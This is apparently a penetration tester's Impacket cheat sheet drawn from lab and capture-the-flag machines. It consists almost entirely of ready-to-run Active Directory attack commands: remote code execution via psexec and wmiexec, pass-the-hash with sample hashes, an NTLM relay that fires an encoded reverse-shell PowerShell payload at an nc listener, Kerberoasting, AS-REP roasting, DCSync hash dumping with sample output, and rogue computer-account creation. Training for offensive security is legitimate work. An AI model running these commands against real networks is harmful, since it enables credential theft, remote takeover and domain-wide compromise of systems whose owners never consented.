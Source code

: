 # impacket
- <https://github.com/fortra/impacket>

Impacket is a collection of Python classes for working with network protocols. Impacket is focused on providing low-level programmatic access to the packets and for some protocols (e.g. SMB1-3 and MSRPC) the protocol implementation itself.








```bash
impacket-smbclient.py [domain]/[user]:[password/password hash]@[Target IP Address] #we connect to the server rather than a share
impacket-lookupsid.py [domain]/[user]:[password/password hash]@[Target IP Address] #User enumeration on target
impacket-services.py [domain]/[user]:[Password/Password Hash]@[Target IP Address] [Action] #service enumeration
impacket-secretsdump.py [domain]/[user]:[password/password hash]@[Target IP Address]  #Dumping hashes on target
impacket-GetUserSPNs.py [domain]/[user]:[password/password hash]@[Target IP Address] -dc-ip <IP> -request  #Kerberoasting, and request option dumps TGS
impacket-GetNPUsers.py test.local/ -dc-ip <IP> -usersfile usernames.txt -format hashcat -outputfile hashes.txt #Asreproasting, need to provide usernames list

##RCE
impacket-psexec.py test.local/john:password123@10.10.10.1
impacket-psexec.py -hashes lmhash:nthash test.local/john@10.10.10.1
impacket-wmiexec.py test.local/john:password123@10.10.10.1
impacket-wmiexec.py -hashes lmhash:nthash test.local/john@10.10.10.1
impacket-smbexec.py test.local/john:password123@10.10.10.1
impacket-smbexec.py -hashes lmhash:nthash test.local/john@10.10.10.1
impacket-atexec.py test.local/john:password123@10.10.10.1 <command>
impacket-atexec.py -hashes lmhash:nthash test.local/john@10.10.10.1 <command>

```
























## PtH

```
impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b 
Administrator@192.168.50.212


C:\Windows\system32> whoami
nt authority\system
```

```
impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212


C:\>whoami
files02\administrator
```


We can also use one of the other impacket scripts like `wmiexec.py` to obtain a shell 
as the user we used for authentication. On Kali, we would use `impacket-wmiexec` 
along with the arguments we used for `impacket-psexec`.

## wmiexec
```
impacket-wmiexec localadmin@10.10.11.14 -hashes "aad3b435b51404eeaad3b435b51404ee:9aa582783780d1546d62f2d102daefae"


# Impacket's wmiexec.py can be used to get a shell
impacket-wmiexec [DOMAIN]/[USERNAME]:[PASSWORD]@[IP]
impacket-wmiexec active.htb/administrator:Ticketmaster1968@10.129.208.12
```







## Relaying Net-NTLMv2

```
sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.212 -c "powershell -enc [ENCODED REVERSER POWERSHELL]
```


And on the ATTACKER MACHINE start a `nc` listener on the port the reverse shell is pointing at.










##  SPN
SPNs that are running under a user account:

```
impacket-GetUserSPNs active.htb/svc_tgs -dc-ip 10.10.10.100 -request

GetUserSPNs.py active.htb/svc_tgs -dc-ip 10.10.10.100 -request
```








## AS-REP Roasting

```
# Just list users with "Do not require Kerberos preauthentication" enabled

impacket-GetNPUsers [DOMAIN/[USERNAME (opt):PASSWORD (opt)]] -dc-ip [DOMAIN CONTROLLER IP]

impacket-GetNPUsers -dc-ip [DOMAIN CONTROLLER IP] corp.com/pete



# get the hash
impacket-GetNPUsers -dc-ip [DOMAIN CONTROLLER IP] -request -outputfile [OUTPUT FILE NAME] corp.com/pete
```

This will show the user account option "Do not require Kerberos preauthentication" enabled, meaning it's vulnerable to AS-REP Roasting.





## Kerberoasting

Use `impacket-GetUserSPNs` with the IP of the domain controller as the argument for `-dc-ip`.

Since our Kali machine is not joined to the domain, we also have to provide domain user credentials to obtain the TGS-REP hash.

As before, we can use `-request` to obtain the TGS and output them in a compatible format for Hashcat.


```
sudo impacket-GetUserSPNs htb.local/asmith:passw0rd
sudo impacket-GetUserSPNs htb.local/asmith:passw0rd -request

sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
```

NOTE: if `impacket-GetUserSPNs` throws the error "KRB_AP_ERR_SKEW(Clock skew too great)" we need to synchronize the time of the Kali machine with the domain controller with `ntpdate` or `rdate`.





## dcsync

impacket-secretsdump on our non-domain joined Kali machine

```
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70

impacket-secretsdump -just-dc-user krbtgt corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.166.70


# Output
...
[*] Using the DRSUAPI method to get NTDS.DIT secrets
dave:1103:aad3b435b51404eeaad3b435b51404ee:08d7a47a6f9f66b97b1bae4178747494:::
# This is the hash: 08d7a47a6f9f66b97b1bae4178747494
...
```












## MSSQL
```
impacket-mssqlclient ARCHETYPE/sql_svc@${ip} -windows-auth

python3 mssqlclient.py ARCHETYPE/sql_svc@{TARGET_IP} -windows-auth
```




## PSExec
```
impacket-psexec administrator@${ip}
python3 psexec.py administrator@{TARGET_IP}
```







## add computer
```
impacket-addcomputer '[DOMAIN]/[USERNAME]' -method [METHOD] -computer-name '[NEW COMPUTER_NAME]' -computer-pass '[NEW COMPUTER_PASSWORD]' -dc-ip [DC_IP_ADDRESS]


impacket-addcomputer 'authority.htb/svc_ldap' -method LDAPS -computer-name 'EVIL01' -computer-pass 'Str0ng3st_P@ssw0rd!' -dc-ip 10.10.11.222

```
















